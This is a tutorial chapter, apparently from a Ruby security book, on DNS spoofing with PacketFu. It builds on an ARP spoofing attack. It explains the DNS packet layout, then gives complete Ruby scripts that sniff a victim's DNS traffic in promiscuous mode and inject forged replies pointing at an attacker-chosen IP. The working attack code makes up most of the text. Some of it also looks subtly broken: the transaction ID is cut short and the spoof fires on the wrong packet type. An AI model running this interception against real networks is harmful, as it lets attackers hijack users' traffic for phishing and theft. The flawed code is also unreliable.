


# DNS Spoofing
Continuing our attack through [ARP Spoofing](module_0x4__network_kungfu/arp_spoofing.md), we want to change the victim's DNS request to whatever destination we like.

### Scenario
```
                |Attacker|
                    | AttackerSite
                    ٧                      AttackerSite
|Victim| ----------/ \----------> |Router| ----------> Internet
          AnySite      AttackerSite
```
> Keep the ARP spoof attack running

The same IPs of ARP spoof attack

| Host        |   IP Address  |
|:-----------:|:-------------:|
| Attacker    | 192.168.0.100 |
| Victim      | 192.168.0.21  |
| Router      | 192.168.0.1   |


Now we cant intercept DNS Query packet coming from victim's machine. Since PacketFu supports filters in capturing (to reduce mount of captured packets) we'll use `udp and port 53 and host` filter, then we'll inspect the captured packet to ensure that it's a query then find the requested domain..........

From wireshark, if we take a deeper look at the DNS query payload in `Domain Name System (query)`, we can see its been presented in hexdecimal format.

|  |
|:---------------:|
| **Figure 1.** DNS query Payload  |


Let's to anatomize our payload
```
0000   e7 1d 01 00 00 01 00 00 00 00 00 00 07 74 77 69
0010   74 74 65 72 03 63 6f 6d 00 00 01 00 01
```
* The First 2 bytes is the **Transaction ID** and we don't care about it for now. (Our case: `\xe7\x1d`)
* The Nex 2 bytes is the **Flags**[^3]. (We need: `\x01\x00` = \x10)
* Farthermore, in **Queries** section which contains

```
0000   07 74 77 69 74 74 65 72 03 63 6f 6d 00 00 01 00
0010   01
```


* The **Queries** starts at *13 byte* of the payload.
    * The13th byte specifies the length of the domain name *before* the *very first dot* (without last dot com or whatever the top domain is). (Our case: `\x07`)
        **Try:**`[%w{ 74 77 69 74 74 65 72 }.join].pack("H*")`
        * Notice The domain name of "twitter.com" equals `\x07` but "www.twitter.com" equals `\x03` the same consideration for subdomains
        * Each dot after first dot will be replaced with the length of the followed characters

        **e.g.** www.google.co.uk
            * First length (**www**)  => will be replaced with `\x03`
            * First dot(**.google**) => will be replaced with `\x06`
            * Second dot(**.co**)    => will be replaced with `\x02`
            * Third dot(**.uk**)     => will be replaced with `\x02`

    * The very end of the domain name string is terminated by a `\x00`.
    * The next 2 bytes refers to the **type of the query**[^4]. (Our case: `\x00\x01`)


**Now what?!**

* We need to start capturing/sniffing on specific interface
* We need to enable promiscuous mode on our interface
* We need to capture UDP packets on port 53 only
* We need parse/analyze the valid UDP packets only
* We need to make sure this packet is a DNS query
* We need to get the queried/requested domain
    * We need to know the domain length
    * We need to get the FQDN
* Build a DNS response
* Replace the requested domain with any domain we want
* Re inject the packet into victim connection and send

I'll divide our tasks then wrap it up in one script

```ruby
#!/usr/bin/env ruby
#
require 'packetfu'

include PacketFu

#
# * We need to start capturing/sniffing on specific interface
# * We need to enable promiscuous mode on our interface
# * We need to capture UDP packets on port 53 only
#
filter = "udp and port 53 and host " + "192.168.0.21"
capture = Capture.new(:iface => "wlan0",:start => true, :promisc => true, :filter => filter, :save => true)

# * We need to get the queried/requested domain
#    * We need to know the domain length
#    * We need to get the FQDN
#
# Convert DNS Payload to readable - Find The FQDN
#
def readable(raw_domain)
  # Prevent processing non domain
  if raw_domain[0].ord == 0
    puts "ERROR : THE RAW STARTS WITH 0"
    return raw_domain[1..-1]
  end

  fqdn = ""
  length_offset = raw_domain[0].ord
  full_length   = raw_domain[ 0..length_offset ].length
  domain_name   = raw_domain[(full_length - length_offset)..length_offset]

  while length_offset != 0
    fqdn << domain_name + "."
    length_offset = raw_domain[full_length].ord
    domain_name   = raw_domain[full_length + 1..full_length + length_offset]
    full_length   = raw_domain[0..full_length + length_offset].length
  end

  return fqdn.chomp!('.')
end

# * We need parse/analyze the valide UDP packets only
# * We need to make sure this packet is a DNS query
#
# Find the DNS packets
#
capture.stream.each do |pkt|
  # Make sure we can parse the packet; if we can, parse it
  if UDPPacket.can_parse?(pkt)
    @packet = Packet.parse(pkt)

    # Make sure we have a query packet
    dns_query = @packet.payload[2..3].to_s

    if dns_query == "\x01\x00"
      # Get the domain name into a readable format
      domain_name = @packet.payload[12..-1].to_s # FULL QUERY
      fqdn = readable(domain_name)

      # Ignore non query packet
      next if domain_name.nil?

      puts "DNS request for: " + fqdn
    end
  end
end
```
Till now we successfully finished [ARP Spoofing](module_0x3__network_kungfu/arp_spoofing.md) then DNS capturing but still we need to replace/spoof the original response to our domain. eg. attacker.zone, now we have to build a DNS response instead of spoofed to be sent. So what we need?

* taking the IP we are going to redirect the user to (the spoofing_ip)
    * converting it into hex using the `to_i` and `pack` methods.
* From there we create a new UDP packet using the data contained in `@ourInfo` (IP and MAC) and fill in the normal UDP fields.
    * I take most of this information straight from the DNS Query packet.
* The next step is to create the DNS Response.
    * the best way to understand the code here is to look at a DNS header and then
    * take the bit map of the HEX values and apply them to the header.
    * This will let you see what flags are being set.
* From here, we just calculate the checksum for the UDP packet and send it out to the target's machine.

|  |
|:---------------:|
| **Figure 2.** DNS Response Payload  |

```ruby

spoofing_ip = "69.171.234.21"
spoofing_ip.split('.').map {|octet| octet.to_i}.pack('c*')

  response = UDPPacket.new(:config => PacketFu::Utils.ifconfig("wlan0"))
  response.udp_src   = packet.udp_dst
  response.udp_dst   = packet.udp_src
  response.ip_saddr  = packet.ip_daddr
  response.ip_daddr  = "192.168.0.21"
  response.eth_daddr = "00:0C:29:38:1D:61"


```


Wrapping up 

```ruby
#!/usr/bin/env ruby
# -*- coding: binary -*-

# Start the capture process
require 'packetfu'
require 'pp'
include PacketFu


def readable(raw_domain)
  
  # Prevent processing non domain
  if raw_domain[0].ord == 0
    puts "ERROR : THE RAW STARTS WITH 0"
    return raw_domain[1..-1]
  end

  fqdn = ""
  length_offset = raw_domain[0].ord
  full_length   = raw_domain[ 0..length_offset ].length
  domain_name   = raw_domain[(full_length - length_offset)..length_offset]

  while length_offset != 0
    fqdn << domain_name + "."
    length_offset = raw_domain[full_length].ord
    domain_name   = raw_domain[full_length + 1 .. full_length + length_offset]
    full_length   = raw_domain[0 .. full_length + length_offset].length
  end

  return fqdn.chomp!('.')
end

#
# Send Response
#
def spoof_response(packet, domain)

  attackerdomain_name = 'rubyfu.net'
  attackerdomain_ip   = '54.243.253.221'.split('.').map {|oct| oct.to_i}.pack('c*')  # Spoofing IP

  # Build UDB packet
  response = UDPPacket.new(:config => PacketFu::Utils.ifconfig("wlan0"))
  response.udp_src   = packet.udp_dst             # source port
  response.udp_dst   = packet.udp_src             # destination port
  response.ip_saddr  = packet.ip_daddr            # modem's IP address to be source
  response.ip_daddr  = packet.ip_saddr            # victim's IP address to be destination
  response.eth_daddr = packet.eth_saddr           # the victim's MAC address
  response.payload   = packet.payload[0,1]        # Transaction ID
  response.payload  += "\x81\x80"                 # Flags: Reply code: No error (0)
  response.payload  += "\x00\x01"                 # Question: 1
  response.payload  += "\x00\x00"                 # Answer RRs: 0
  response.payload  += "\x00\x00"                 # Authority RRs: 0
  response.payload  += "\x00\x00"                 # Additional RRs: 0
  response.payload  += attackerdomain_name.split('.').map do |section| # Queries | Name: , Convert domain to DNS style(the opposite of readable method)
    [section.size.chr, section.chars.map {|c| '\x%x' % c.ord}.join]
  end.join + "\x00"
  response.payload  += "\x00\x01"                 # Queries | Type: A (Host address)
  response.payload  += "\x00\x01"                 # Queries | Class: IN (0x0001)
  response.payload  += "\xc0\x0c"                 # Answer | Name: twitter.com
  response.payload  += "\x00\x01"                 # Answer | Type: A (Host address)
  response.payload  += "\x00\x01"                 # Answer | Class: IN (0x0001)
  response.payload  += "\x00\x00\x00\x25"         # Answer | Time to live: 37 seconds
  response.payload  += "\x00\x04"                 # Answer | Data length: 4
  response.payload  += attackerdomain_ip          # Answer | Addr
  response.recalc                                 # Calculate the packet
  response.to_w(response.iface)                   # Send the packet through our interface
end

filter = "udp and port 53 and host " + "192.168.0.21"
@capture = Capture.new(:iface => "wlan0", :start => true, :promisc => true, :filter => filter, :save => true)
# Find the DNS packets
@capture.stream.each do |pkt|
  # Make sure we can parse the packet; if we can, parse it
  if UDPPacket.can_parse?(pkt)
    packet = Packet.parse(pkt)

    # Get the offset of the query type: (request=\x01\x00, response=\x81\x80)
    dns_query = packet.payload[2..3].to_s

    # Make sure we have a dns query packet
    if dns_query == "\x01\x00"
      # Get the domain name into a readable format
      domain_name = packet.payload[12..-1].to_s # FULL DOMAIN
      fqdn = readable(domain_name)
      # Ignore non query packet
      next if domain_name.nil?
      puts "DNS request for: " + fqdn

    end
    # Make sure we have a dns reply packet
    if dns_query == "\x81\x80"
      domain_name = packet.payload[12..-1].to_s # FULL DOMAIN
      fqdn = readable(domain_name)
      puts "[*] Start Spoofing: " + fqdn
      spoof_response packet, domain_name
    end

  end
end 

```


https://github.com/SilverFoxx/Spoofa/blob/master/spoofa

Sources[^1] [^2] - The code has been modified and fixed

<br><br><br>
---
[^1]: [DNS Spoofing Using PacketFu](http://crushbeercrushcode.org/2012/10/ruby-dns-spoofing-using-packetfu/)
[^2]: [Manipulating The Network with PacketFu](http://tuftsdev.github.io/DefenseOfTheDarkArts/assignments/manipulatingthenetworkwithpacketfu-110314111058-phpapp01.pdf)
[^3]: [DNS Header Flags](http://www.iana.org/assignments/dns-parameters/dns-parameters.xhtml#dns-parameters-12)
|   Bit  | Flag | Description          | Reference |
|:------:|------|----------------------|-----------|
| bit 5  |  AA  | Authoritative Answer | [RFC1035] |
| bit 6  |  TC  | Truncated Response   | [RFC1035] |
| bit 7  |  RD  | Recursion Desired    | [RFC1035] |
| bit 8  |  RA  | Recursion Allowed    | [RFC1035] |
| bit 9  |      | Reserved             |           |
| bit 10 |  AD  | Authentic Data       | [RFC4035] |
| bit 11 |  CD  | Checking Disabled    | [RFC4035] |
[^4]: [DNS Lookups Types](http://www.iana.org/assignments/dns-parameters/dns-parameters.xhtml#dns-parameters-4)
|  Type | Value |               Description               |
|:-----:|:-----:|:---------------------------------------:|
| A     | 1     | IP Address                              |
| NS    | 2     | Name Server                             |
| CNAME | 5     | Alias of a domain name                  |
| PTR   | 12    | Reverse DNS Lookup using the IP Address |
| HINFO | 13    | Host Information                        |
| MX    | 15    | MX Record                               |
| AXFR  | 252   | Request for Zone Transfer               |
| ANY   | 255   | Request for All Records                 |
